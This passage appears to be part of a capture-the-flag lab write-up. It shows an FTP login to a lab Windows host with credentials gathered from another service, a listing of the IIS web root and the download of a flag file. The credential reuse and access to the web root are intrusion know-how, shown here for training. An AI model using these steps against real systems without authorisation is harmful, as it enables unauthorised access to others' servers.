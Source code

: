 **FTP Authentication Results:**
```
Connected to target.ine.local.
220 Microsoft FTP Service
Name (target.ine.local:root): david
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> 
```

**Success!** FTP access granted. This shows how information gathered from one service can be leveraged to access other services.

### Step 2: FTP Directory Enumeration

Now let's explore what's available in the FTP directory:

```bash
ftp> ls
```

**FTP Directory Listing:**
```
ftp> ls
229 Entering Extended Passive Mode (|||49460|)
125 Data connection already open; Transfer starting.
06-13-24  10:36AM       <DIR>          aspnet_client
09-28-25  01:21PM                   34 flag3.txt
06-13-24  10:34AM                99710 iis-85.png
06-13-24  10:34AM                  701 iisstart.htm
226 Transfer complete.
```

**Directory Contents:**
- **aspnet_client** (directory) - ASP.NET client files
- `flag3.txt` - Our target flag
- **iis-85.png** - IIS logo image
- **iisstart.htm** - Default IIS start page

This directory structure is very telling - it appears we have FTP access to the web root directory of the IIS server. The presence of `iisstart.htm` and `aspnet_client` directory confirms this is the web server's document root.

### Step 3: Flag Retrieval

```bash
ftp> get flag3.txt
```

**Flag 3 Retrieval:**
```
ftp> get flag3.txt
local: flag3.txt remote: flag3.txt
229 Entering Extended Passive Mode (|||49463|)
150 Opening ASCII mode data connection.
100% |******************************************************************|    34       13.13 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (11.92 KiB/s)
```
